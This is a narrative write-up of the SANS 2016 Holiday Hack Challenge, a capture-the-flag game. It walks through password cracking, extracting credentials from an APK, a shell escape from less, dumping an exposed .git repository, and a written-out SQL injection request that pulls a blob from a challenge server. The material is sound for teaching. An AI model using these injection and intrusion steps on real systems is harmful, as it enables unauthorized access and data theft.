



# SANS 2016 Holiday Hack Challenge Writeup

#### Submitted by Christopher Byrd, January 4, 2017

---

**Beware, spoilers below!**

_'Twas the night before Christmas, and all through the house, not a creature was stirring, except for..._

_Me_. First, please let me introduce myself. I'm an investigator for the Council of Legendary Figures, working directly for _Father Time_. And if I'm getting a phone call on Christmas Eve, something really bad must be happening.

We've had our eye on the Dosis neighborhood ever since they helped solve that incident last year with Cindy Lou Who. And this year, it sounds like someone has kidnapped Santa Claus himself!

I started where it all began, in the Dosis home...


From the children's stories, it sounds like there was sounds of a struggle, and Santa's business card and sack of presents was left at the scene! The business card seems like a good place to start.

## Part 1: A Most Curious Business Card


Looking at Santa's business card, there are two social media accounts, **twitter.com/@santaclaus** and **instagram.com/santawclaus**.

Santa's Twitter timeline is filled with interesting Tweets that at first glance don't make a lot of sense:


To check for hidden messages, I first copied the Tweets into a text editor, removing any extra information and spacing with the following result:


Now we're getting something - there appears to be a message encoded as ASCII art! To see the full picture we'll need to zoom out (and rotate the resulting image).


Awesome! Santa obviously has a hidden message for us, making reference to a **BUG BOUNTY**. We'll file that information away in case it is of use later.

Reviewing Santa's Instagram page, Santa has posted three photos.


Two of the photos are nice holiday scenes, but the third is a photo of Hermey's desk, with a message from Santa:


Wait, what is that? Could there be some information accidentally disclosed? Let's zoom, and ENHANCE!


Using the URL from the paper on the desk (https://www.northpolewonderland.com) combined with the filename (SantaGram_v4.2.zip) we can guess the URL **https://www.northpolewonderland.com/SantaGram_v4.2.zip**

This allows us to download the SantaGram_v4.2.zip file. It contains a single file, SantaGram_v4.2a.apk


However, this file is encrypted. It's only using ZipCrypto, so should be easy to crack. However, first let's see if we already have a password that will decrypt the file. The first try, "BUG BOUNTY" from the Twitter message didn't work. However, not all passwords are that complex. After a couple tries, the password was identified as "bugbounty" with lowercase and no space. It figures.

Using that we were able to extract the APK file, which will come in handy.

Time for a recap of what we have deduced so far:

### 1 What is the secret message in Santa's tweets?

The Tweets, when viewed vertically, read **BUG BOUNTY**. When slightly modified this turned out to be the password to the ZIP file.

### 2 What is inside the ZIP file distributed by Santa's team?

Inside the Zip file was an Android app, **SantaGram_4.2.apk**.

## Part 2: Awesome Package Konveyance

It was time to dig into the SantaGram app. I started by running the Android Tamer Linux distribution from https://androidtamer.com/ in a VirtualBox guest. This distribution contains a large number of pre-configured Android analysis tools, already configured and ready to go. After all, there was no time to waste!

The first tool I used was Mobile Security Framework - MobSF -  (https://github.com/ajinabraham/Mobile-Security-Framework-MobSF). This is an all-in-one analysis tool capable of tearing apart an Android application, and looking at both static and dynamic analysis. Running MobSF on the SantaGram_4.2.apk resulted in the following:


From this we see that the application is called com.northpolewonderland.santagram, and has a main activity called SplashScreen. It is targeted for Android SDK 23 (Marshmellow), but runs on a minimum SDK of 18 (Jelly Bean). It is signed by Santa W. Claus with the organization North Pole Wonderland, from North Pole Wonderland, NW.

Searching through the decompiled application, I was able to locate a set of credentials in the file **Configs.java**:


Several API keys are also stored in the code:


Also, there are several URLs referenced in the **values/strings.xml** file:


Also, as APK files are just Zip files, they can be extracted and all included files examined. In the SantaGram **res/raw/** directory there was the file **discombobulatedaudio1.mp3**. This file is not referenced anywhere else except for the package signature, so it appears to be added but not included in the application functionality. Listening to the file it really does sound discombobulated, but it may come in useful later.

Our progress so far:

### 3 What username and password are embedded in the APK file?

The APK had the credentials **guest** / **busyreindeer78** embedded.

### 4 What is the name of the audible component (audio file) in the SantaGram APK file?

The APK contained the audio file named **discombobulatedaudio1.mp3**

## Part 3: A Fresh-Baked Holiday Pi

When Santa was abducted, he left behind a strange portal. Stepping through this portal took me to the North Pole!

To find Santa, I'll need to piece together a Cranberry Pi, get it working, then use it to get access to these terminals that allow us to progress through Wonderland. Finding all the pieces of the Cranberry Pi was the first challenge.

The first part, the Cranberry Pi itself, was located in a secret room behind the fireplace in Elf House #1.


The second piece we need is a heatsink, since Cranberry Pis can run hot. It was found upstairs in Elf House #2.


Also Cranberry Pis need power, and a power cord was located in the center of the North Pole.


We'll also need a memory card (so much for these things only costing $30!), which can be found left lying around on a bridge to the left of Santa's Workshop.


Last, we'll need some way to plug it into a display. Luckly, a HDMI cable was left in the Workshop behind the Reindeer.


Once we've assembled all of these pieces, we'll need the password for the Cranberry Pi. Fortunately I can download a Cranbian OS image from **https://www.northpolewonderland.com/cranbian.img.zip**

I needed to extract the filesystem (using [these excellent instructions](https://pen-testing.sans.org/blog/2016/12/07/mount-a-raspberry-pi-file-system-image) posted by Josh Wright). I can use the following commands:

```
chris@debian:~/hhc/image$ sudo fdisk -l cranbian-jessie.img
chris@debian:~/hhc/image$ echo $((512*137216))
chris@debian:~/hhc/image$ mkdir cranbian-jessie
chris@debian:~/hhc/image$ sudo mount -v -o offset=70254592 -t ext4 cranbian-jessie.img cranbian-jessie
```

 Once the filesystem is extracted, you'll need to crack the cranpi's password. John the Ripper is able to crack the password, using a wordlist from the **rockyou** breach. First, unshadow the password file.

 ``chris@debian:~/hhc/image$ sudo unshadow ../cranbian-jessie/etc/passwd ../cranbian-jessie/etc/shadow > mypasswd``

 Next run john to crack the password using the rockyou wordlist.

 ``chris@debian:~/hhc/image$ /usr/sbin/john mypasswd -wordlist=rockyou.txt``

Finally display the cracked passwords:

`chris@debian:~/hhc/image$ /usr/sbin/john mypasswd --show
cranpi:yummycookies:1000:1000:,,,:/home/cranpi:/bin/bash`

### 5 What is the password for the "cranpi" account on the Cranberry Pi system?

The root password is **yummycookies**

### 6 How did you open each terminal door and where had the villain imprisoned Santa?

#### Elf House Terminal

To get through the first door, we need to analyze a PCAP file.


To complicate matters a bit, the PCAP is owned by the user itchy, but we're logged in as scratchy. Checking sudo permissions with **sudo -l** shows that scratchy can run two commands as itchy without a password, **tcpdump** and **strings**.


To get a feeling for what is in the PCAP file, we start by running **tcpdump** with options that only return TCP packets with SYN and ACK bits, that is, the start of successful TCP conversations.


To get the password, we start by selecting the first HTTP conversation, piping it through strings and grep to clean up the output. In the output we see part 1, **santasli**.


Finally, to get the second part of the password, we use the other utility that scratchy can run as itchy, the **strings** utility. Although it wasn't found the first time, changing the strings type to 16-bit little endian works to identify the second part, **ttlehelper**.


The password **santaslittlehelper** got us through the Elf House #2 terminal.

#### Workshop Terminal

To get the password from the terminal in the Workshop, I had to play (and beat) a game of Wumpus. Fortunately, it's possible to better your odds by identifying a series of command line options. Some careful Google searching found the source code online (https://github.com/vattam/BSDGames/blob/master/wump/wump.c). Using the source code, command line options that allow the player to control the number of arrows, rooms, bats, and pits were identified.

Setting these gives the player much better odds:


Beating the game reveals the password **WUMPUS IS MISUNDERSTOOD**.

#### Door to Santa's Office Terminal

To get into Santa's Office, I needed to traverse a nested set of directories to identify a file containing the password. Initially I found it by walking through the directories, using shell escape characters to handle directories with special character names.


Ultimately this was successful, identifying the key **open_sesame**


However, this wasn't satisfying, as it took too much manual work to traverse all those directories. Instead, I combined the **find** command with **egrep** to look for files with pass or key, which found the same thing, but much quicker.


#### Terminal in Santa's Office

What is this TARDIS doing here on Santa's desk?


To get the password from the terminal in Santa's Office, I played along with the script from the movie WarGames. In addition to being a big fan of the movie, it helped that a clip of the scene is [available on YouTube](https://www.youtube.com/watch?v=KXzNo0vR_dU).


Fortunately this revealed the password **LOOK AT THE PRETTY LIGHTS**, and didn't launch a nuclear attack on Las Vegas.

#### Workshop Train Station Terminal

The train station terminal presents a management console without authentication. However, efforts to start the train prompted to enter a password.


Accessing the HELP menu for the train displays a set of help text. One word, **unLESS**, has a strange case. This appears to be a hint that the help document is being displayed in less (which also can be noticed due to the prompt at the bottom.)


Fortunately for me, **less** is able to execute a shell by typing an exclamation mark followed by the command to run, in this case **/bin/bash**.


This gave us access to a system shell, from which we can see the code that makes up the train application. One command, **ActivateTrain**, seems to be what we want to do.


Once **ActivateTrain** is run, an awesome time travel sequence (including animated train) commences!


This transports me back to 1978!


Is that a Star Wars poster in Elf House #2 - Room #2?


Following our former (future) tracks through the North Pole and Santa's workshop we arrive in the 1978 Dungeon for Errant Reindeer (DFER) room, and Santa Claus!


Unfortunately Santa can't remember who attacked him, and to find the real attacker we will need to decode the audio clues that was left behind by Santa before his attack.

## Part 4: My Gosh... It's Full of Holes
### 7 For each of those six items, which vulnerabilities did you discover and exploit?

#### The Mobile Analytics Server (via credentialed login access)

I had already found one audio file during the APK analysis, perhaps others were hiding on the servers referenced in the URLs in the SantaGram mobile application. Safety first, I checked each server with a virtual Tom Hessman prior to starting any testing.

Desc  |Dns name   | IP addr  |  In scope?
--|---|---|--
Analytics  | analytics.northpolewonderland.com  | 104.198.252.157  |Yes  
Banner Ads  | ads.northpolewonderland.com  | 104.198.221.240  |Yes  
Debug Data Collection  | dev.northpolewonderland.com  | 35.184.63.245  |Yes  
Dungeon  | dungeon.northpolewonderland.com  | 35.184.47.139  |Yes  
Exception Handler  |ex.northpolewonderland.com   | 104.154.196.33  |Yes  





The second audio file, on the analytics site, was fortunately easy to retrieve. It was accessible simply by logging in using the credentials **guest** / **busyreindeer78** stored in SantaGram APK.


Enter **guest** / **busyreindeer78** for username and password.


Then select MP3 from the menu.


#### The Dungeon Game

Open port (11111) on dungeon.northpolewonderland.com without for authentication allows for clear-text access of Dungeon game.

Identified open port 11111 on dungeon.northpolewonderland.com

chris@debian:~$ nmap -Pn -n -v --version-light -p1-65535 35.184.47.139`

```
Starting Nmap 6.47 ( http://nmap.org ) at 2016-12-14 21:35 CST
Initiating Connect Scan at 21:35
Scanning 35.184.47.139 [65535 ports]
Discovered open port 22/tcp on 35.184.47.139
Discovered open port 80/tcp on 35.184.47.139
Discovered open port 554/tcp on 35.184.47.139
Connect Scan Timing: About 2.72% done; ETC: 21:54 (0:18:30 remaining)
Connect Scan Timing: About 4.45% done; ETC: 21:58 (0:21:51 remaining)
Discovered open port 11111/tcp on 35.184.47.139
```


That port is hosting an online version of the dungeon game
```
chris@debian:~/hhc/dungeon$ nc 35.184.47.139 11111
Welcome to Dungeon.			This version created 11-MAR-78.
You are in an open field west of a big white house with a boarded
front door.
There is a small wrapped mailbox here.
```

I was able to locate the source for Dungeon on GitHub at https://github.com/devshane/slork.
Reviewing the code, there is a built in "backdoor" debugger in source code
https://github.com/devshane/slork/blob/master/zork/gdt.c
This backdoor debugger embedded in Dungeon code allowed for changing room and adding inventory items.

```
chris@debian:~/hhc/dungeon$ nc 35.184.47.139 11111
Welcome to Dungeon.			This version created 11-MAR-78.
You are in an open field west of a big white house with a boarded
front door.
There is a small wrapped mailbox here.
>GDT
GDT>HE
Valid commands are:
AA- Alter ADVS          DR- Display ROOMS
AC- Alter CEVENT        DS- Display state
AF- Alter FINDEX        DT- Display text
AH- Alter HERE          DV- Display VILLS
AN- Alter switches      DX- Display EXITS
AO- Alter OBJCTS        DZ- Display PUZZLE
AR- Alter ROOMS         D2- Display ROOM2
AV- Alter VILLS         EX- Exit
AX- Alter EXITS         HE- Type this message
AZ- Alter PUZZLE        NC- No cyclops
DA- Display ADVS        ND- No deaths
DC- Display CEVENT      NR- No robber
DF- Display FINDEX      NT- No troll
DH- Display HACKS       PD- Program detail
DL- Display lengths     RC- Restore cyclops
DM- Display RTEXT       RD- Restore deaths
DN- Display switches    RR- Restore robber
DO- Display OBJCTS      RT- Restore troll
DP- Display parser      TK- Take
GDT>
```

Used DL (Display Length) to find last room number:
```
GDT>DL
R=192, X=895, O=217, C=24
V=3, A=3, M=1027, R2=15
MBASE=885, STRBIT=191
```

Then used AH (Alter HERE) to move to the room:

```
GDT>AH
Old=      2      New= 192
GDT>exit
>l
You have mysteriously reached the North Pole.
In the distance you detect the busy sounds of Santa's elves in full
production.

You are in a warm room, lit by both the fireplace but also the glow of
centuries old trophies.
On the wall is a sign:
		Songs of the seasons are in many parts
		To solve a puzzle is in our hearts
		Ask not what what the answer be,
		Without a trinket to satisfy me.
The elf is facing you keeping his back warmed by the fire.
>
```

The elf wants something shiny, so I used brute force guessing to identify the item number of a Zorkmid
```
>GDT
GDT>TK
Entry:    104
Taken.
GDT>exit
>i
You are carrying:
  A gold zorkmid.
>
```
In the game I gave the zorkmid to the Elf…
```
>give zorkmid to Elf
The elf, satisified with the trade says -
send email to "peppermint@northpolewonderland.com" for that which you seek.
The elf says - you have conquered this challenge - the game will now end.
Your score is 10 [total of 585 points], in 3 moves.
This gives you the rank of Beginner.
chris@debian:~/hhc/dungeon$
```

I sent the email as instructed, and got the audio file back in return!


#### The Debug Server

To investigate the Debug server, I needed an example of traffic to the application. Fortunately I had the SantaGram app source, which could be modified to generate the traffic.

I started with the previously extracted apktool source

```android@tamer ~/S/SantaGram_4.2> grep -i 'debug' -R *                    
res/values/strings.xml:    <string name="debug_data_collection_url">http://dev.northpolewonderland.com/index.php</string>
res/values/strings.xml:    <string name="debug_data_enabled">false</string>
```
Changed debug_data_enabled from **false** to **true**

Then I had to recompile the Android application.

```
android@tamer ~/SantaGram> apktool b SantaGram_4.2    
I: Using Apktool 2.1.1
I: Checking whether sources has changed...
I: Smaling smali folder into classes.dex...
I: Checking whether resources has changed...
I: Building resources...
I: Building apk file...
I: Copying unknown files/dir...
```
Also I had to create a signing key to sign the updated app.

```
android@tamer ~/S/SantaGram_4.2> keytool -genkey -v -keystore keys/santagram.keystore -alias SantaGram -keyalg RSA -keysize 1024 -sigalg SHA1withRSA -validity 10000
Enter keystore password:  
Re-enter new password:
What is your first and last name?
  [Unknown]:  devnull
What is the name of your organizational unit?
  [Unknown]:  devnull
What is the name of your organization?
  [Unknown]:  devnull
What is the name of your City or Locality?
  [Unknown]:  devnull
What is the name of your State or Province?
  [Unknown]:  devnull
What is the two-letter country code for this unit?
  [Unknown]:  DN
Is CN=devnull, OU=devnull, O=devnull, L=devnull, ST=devnull, C=DN correct?
  [no]:  yes

Generating 1,024 bit RSA key pair and self-signed certificate (SHA1withRSA) with a validity of 10,000 days
	for: CN=devnull, OU=devnull, O=devnull, L=devnull, ST=devnull, C=DN
Enter key password for <SantaGram>
	(RETURN if same as keystore password):  
[Storing keys/santagram.keystore]
```

Once the signing key was created, I had to actually sign the application using **apktool**

```

android@tamer ~/S/SantaGram_4.2> jarsigner -sigalg SHA1withRSA -digestalg SHA1 -keystore keys/santagram.keystore dist/SantaGram_4.2.apk SantaGram
Enter Passphrase for keystore:
jar signed.

Warning:
No -tsa or -tsacert is provided and this jar is not timestamped. Without a timestamp, users may not be able to validate this jar after the signer certificate's expiration date (2044-05-02) or after any future revocation date.
```

To get the updated SantaGram app on the virtual device, first I had to uninstall the previously installed version.

Find the package name:
```
>adb shell pm list packages|findstr "santa"
package:com.northpolewonderland.santagram
```
Uninstall:
```
>adb uninstall com.northpolewonderland.santagram
Success
```

Then the new app version could be installed:
```
>adb install SantaGram_4.2.apk
[100%] /data/local/tmp/SantaGram_4.2.apk
        pkg: /data/local/tmp/SantaGram_4.2.apk
Success
```
Using Burp, I captured a request to the dev server from the modified SantaGram app. This was exported as a curl command to allow for editing on the command line:

```
curl -i -s -k  -X $'POST'     -H $'Content-Type: application/json' -H $'User-Agent: Dalvik/2.1.0 (Linux; U; Android 5.1.1; Android SDK built for x86_64 Build/LMY48X)'     --data-binary $'{\"date\":\"20161215020942-0600\",\"udid\":\"c1d3b8d783437fe4\",\"debug\":\"com.northpolewonderland.santagram.EditProfile, EditProfile\",\"freemem\":53971167}'     $'http://dev.northpolewonderland.com/index.php'
```
The server response
```
HTTP/1.1 200 OK
Server: nginx/1.6.2
Date: Thu, 15 Dec 2016 18:24:44 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"date":"20161215182444","status":"OK","filename":"debug-20161215182444-0.txt","request":{"date":"20161215020942-0600","udid":"c1d3b8d783437fe4","debug":"com.northpolewonderland.santagram.EditProfile, EditProfile","freemem":53971167,"verbose":false}}
```
I noticed that one item was returned in the JSON data called **verbose** that wasn't submitted in the original request. What if I tried adding this, setting it to **true**?

Changed verbose header to true:

```
curl -i -s -k  -X $'POST'
-H $'Content-Type: application/json'
-H $'User-Agent: DY48X)'
--data-binary $'{\"date\":\"20161215020942-0600\",\"udid\":\"c1d3b8d783437fe4\",\"debug\":\"com.northpolewonderland.santagram.EditProfile, EditProfile\",\"freemem\":53971167,\"verbose\":true}'
'http://dev.northpolewonderland.com/index.php'
```
```
HTTP/1.1 200 OK
Server: nginx/1.6.2
Date: Thu, 15 Dec 2016 18:17:48 GMT
Content-Type: application/json
Transfer-Encoding: chunked
Connection: keep-alive

{"date":"20161215181748","date.len":14,"status":"OK","status.len":"2","filename":"debug-20161215181748-0.txt","filename.len":26,"request":{"date":"20161215020942-0600","udid":"c1d3b8d783437fe4","debug":"com.northpolewonderland.santagram.EditProfile, EditProfile","freemem":53971167,"verbose":true},"files":["debug-20161215181724-0.txt","debug-20161215181748-0.txt","debug-20161224235959-0.mp3","index.php"]}
```
And there, in the output, was a reference to the next audio file, **"debug-20161224235959-0.mp3"**! This file was directly requestable using http://dev.northpolewonderland.com/debug-20161224235959-0.mp3.

#### The Banner Ad Server

Visiting the site http://ads.northpolewonderland.com doesn't show much, but in the source you can see it's a Meteor app. These apps, when improperly coded, can send too much information to the client, assumign the client will not display it to the end user.


To easily explore the Meteor application, I installed **Tampermonkey** (https://tampermonkey.net/) and the excellent script **Meteor Miner** (https://github.com/nidem/MeteorMiner) to view additional data about the site.


Clicking the admin/quotes route takes you to the page that is otherwise not linked.


We see in the collections that there are hidden fields for **"HomeQuotes"**, with one record containing a field called **audio**.


The JavaScript Console allows us to use ``HomeQuotes.find().fetch()`` to return the object, including the index which a reference to the URL for the discombobulatedaudio5.mp3 file.

#### The Uncaught Exception Handler Server

I was also able to capture a connection from the SantaGram app to the exception server. The following request to **ex.northpolewonderland.com/exception.php** was captured using Burp proxy:

```
POST /exception.php HTTP/1.1
Content-Type: application/json
User-Agent: Dalvik/2.1.0 (Linux; U; Android 5.1.1; Android SDK built for x86_64 Build/LMY48X)
Host: ex.northpolewonderland.com
Connection: close
Accept-Encoding: gzip
Content-Length: 1714

{"operation":"WriteCrashDump","data":{"message":"Failed to allocate a 1036300 byte allocation with 128048 free bytes and 125KB until OOM","lmessage":"Failed to [...] x86_64",[...],"totalstor":"1300103168","freestor":"106409984","busystor":"1193693184","udid":"c1d3b8d783437fe4"}}
```

The following response was received from the server:

```
HTTP/1.1 200 OK
Server: nginx/1.10.2
Date: Mon, 02 Jan 2017 05:47:15 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 81

{
	"success" : true,
	"folder" : "docs",
	"crashdump" : "crashdump-6FP5H8.php"
}
```

The resulting file was stored on the web server in the **docs** folder as indicated in the server response.


By modifying the request in Burp I was able to request a previously reported crash:


JSON PHP service allowed PHP filters, which can be used to retrieve the source of the exception.php file.


Decoding the source code included a reference to the URL for the MP3 file.


A comment in the source code indicates a URL of (http://ex.northpolewonderland.com/discombobulated-audio-6-XyzE3N9YqKNH.mp3) for the audio file.

#### The Mobile Analytics Server (post authentication)

This was the trickiest audio file to obtain. My first breakthrough came by discovering a GIT repository accidentally stored in the web server root that contained the source of the server.

```
chris@debian:~/hhc/analytics2$ nmap -p 443 -sC analytics.northpolewonderland.com

Starting Nmap 6.47 ( http://nmap.org ) at 2017-01-02 20:36 CST
Nmap scan report for analytics.northpolewonderland.com (104.198.252.157)
Host is up (0.027s latency).
rDNS record for 104.198.252.157: 157.252.198.104.bc.googleusercontent.com
PORT    STATE SERVICE
443/tcp open  https
| http-git:
|   104.198.252.157:443/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|_    Last commit message: Finishing touches (style, css, etc)
|_http-methods: No Allow or Public header in OPTIONS response (status code 405)
| http-title: Sprusage Usage Reporter!
|_Requested resource was login.php
| ssl-cert: Subject: commonName=analytics.northpolewonderland.com
| Not valid before: 2016-12-07T17:35:00+00:00
|_Not valid after:  2017-03-07T17:35:00+00:00
|_ssl-date: 2046-07-30T09:08:55+00:00; +29y208d6h32m48s from local time.
| tls-nextprotoneg:
|_  http/1.1

Nmap done: 1 IP address (1 host up) scanned in 2.82 seconds
```
I was able to download these files and clone them using ``git`` into a local directory:

```
chris@debian:~/hhc/analytics2$ wget -q -r --no-parent https://analytics.northpolewonderland.com/.git/
chris@debian:~/hhc/analytics2$ ls analytics.northpolewonderland.com/.git
branches  COMMIT_EDITMSG  config  description  HEAD  hooks  index  index.html  info  logs  objects  refs
chris@debian:~/hhc/analytics2$ cd analytics.northpolewonderland.com/
chris@debian:~/hhc/analytics2/analytics.northpolewonderland.com$ git clone .git/ files
Cloning into 'files'...
done.
chris@debian:~/hhc/analytics2/analytics.northpolewonderland.com$ cd files
chris@debian:~/hhc/analytics2/analytics.northpolewonderland.com/files$ ls
crypto.php  edit.php    getaudio.php  js          mp3.php    report.php    this_is_html.php  view.php
css         fonts       header.php    login.php   query.php  sprusage.sql  this_is_json.php
db.php      footer.php  index.php     logout.php  README.md  test          uuid.php
chris@debian:~/hhc/analytics2/analytics.northpolewonderland.com/files$
```

Having source code to an application can make it easier to identify flaws in the code. In this case, I found a potential flaw in query.php:
```
    if($type !== 'launch' && $type !== 'usage') {
      reply(400, "Type has to be either 'launch' or 'usage'!");
    }

    $query = "SELECT * ";
    $query .= "FROM `app_" . $type . "_reports` ";
    $query .= "WHERE " . join(' AND ', $where) . " ";
    $query .= "LIMIT 0, 100";
[…]
    format_sql(query($db, $query));
```

Although it will generate an error "Type has to be either launch or usage" - it still executes the query with ``format_sql(query($db,query));`` passing unfiltered input in the **$type** variable.

The following is an example of exploit code for this vulnerability:

```
POST /query.php HTTP/1.1
Host: analytics.northpolewonderland.com
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:50.0) Gecko/20100101 Firefox/50.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://analytics.northpolewonderland.com/query.php
Cookie: AUTH=82532b2136348aaa1fa7dd2243dc0dc1e10948231f339e5edd5770daf9eef18a4384f6e7bca04d86e573b965cf936548b149496263a00165b71f76884152
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 182

date=2017-01-02&type=usage_reports` WHERE udid = 'd98ea69bdd5d0a80'
UNION ALL SELECT id,username,filename,to_base64(mp3),'' FROM audio WHERE filename = "discombobulatedaudio7.mp3" #
```

It is not possible to directly access a MySQL blob field in a SQLi due to type mismatches, but using to_base64 works to retrieve the file.


All that remained was to decode the base64 encoded blob back to a binary file.


### 8 What are the names of the audio files you discovered from each system above?
- The Mobile Analytics Server (via credentialed login access)
**discombobulatedaudio2.mp3**
- The Dungeon Game
**discombombulatedaudio3.mp3**
- The Debug Server
**debug-20161224235959-0.mp3**
- The Banner Ad Server
**discombobulatedaudio5.mp3**
- The Uncaught Exception Handler Server
**discombobulated-audio-6-XyzE3N9YqKNH.mp3**
- The Mobile Analytics Server (post authentication)
**discombobulatedaudio7.mp3**
## Part 5: Discombobulated Audio

Once all of the audio files had been collected, all that remained was to figure out how to listen to them. Each file contained a track number that indicated it's position, 1 - 7.


I started by loading all of the tracks into Audacity. Playing it at this point sounded truly awful by the way.


Next I aligned the tracks end to start in Audacity based on their track number.


Just to simplify things I used the Audacity Mix and Render feature to combine to a single track:


Finally, I tried a number of built in Effects in Audacity to find a combination that resulted in understandable audio. This was not the most fun part of the process. However, I could hear what sounded like a slow version of the word "Christmas", so I figured it had to do with the speed of the playback. Directly changing the playback speed didn't help, but the Audacity Change Tempo effect did exactly what was needed!


This resulted in a playable sound clip, in which someone can be heard saying "Father Christmas, Santa Claus, or As I've always known him, Jeff".

Searching online for this quote returned just one person who calls Santa Claus Jeff - **Doctor Who**!

Using this quote as the combination to the door in the corridor behind Santa's Office, allowed me through!


At the top of the stairs was the Doctor himself, who took credit for kidnapping Santa, in a bid to prevent the Star Wars Holiday special from being made!



And I had gotten 21/21 Achievements. But that didn't feel nearly as good as nabbing the person behind the crime! And it was a Time Lord. Wait until Father Time gets my final report!


### 9 Who is the villain behind the nefarious plot.

**Doctor Who**

### 10 Why had the villain abducted Santa?

He did it in an attempt to **prevent the Star Wars Holiday Special from being made**

## Epilogue: Bringing It All Home

Along the way I also was asked to help find all of the NetWars coins which were dropped around the North Pole. Finding these coins proved to be difficult. Below is a list of all of the locations.

1. Elf House, North Pole
2. Elf House #2, kitchen
3. Elf House #2, under couch
4. Elf House #2 - Upstairs
5. Secret Fireplace Room, Elf House #1
6. NetWars Experience Treehouse
7. The North Pole, roof of NetWars Experience Treehouse
8. Small Tree House (behind trunk)
9. The North Pole (by Santa's workshop)
10. Workshop (on conveyer belt)
11. Elf House #2 - Room 2
12. DFER room
13. The Corridor room (past Santa's Office)
14. 1978 The Train Station
15. 1978 The North Pole
16. The Big Tree 1978
17. NetWars Experience Treehouse 1978
18. Workshop 1978 (in boxes)
19. Workshop - Train Station 1978
20. Santa's Office 1978

As it was difficult to locate the coins, for a few I had to resort to using Chrome DevTools on the client side to hide layers of the image. This allowed me to make the background or floating items disappear, making the coins more readily visible.

Here is a image of a coin hidden behind the Elf House in the North Pole, with Chrome DevTools open displaying the canvas elements.


This is the same location, with the **background** and **floating** elements hidden using Chrome DevTools:


Thank you to Ed Skoudis and the rest of the SANS team for putting this challenge together!
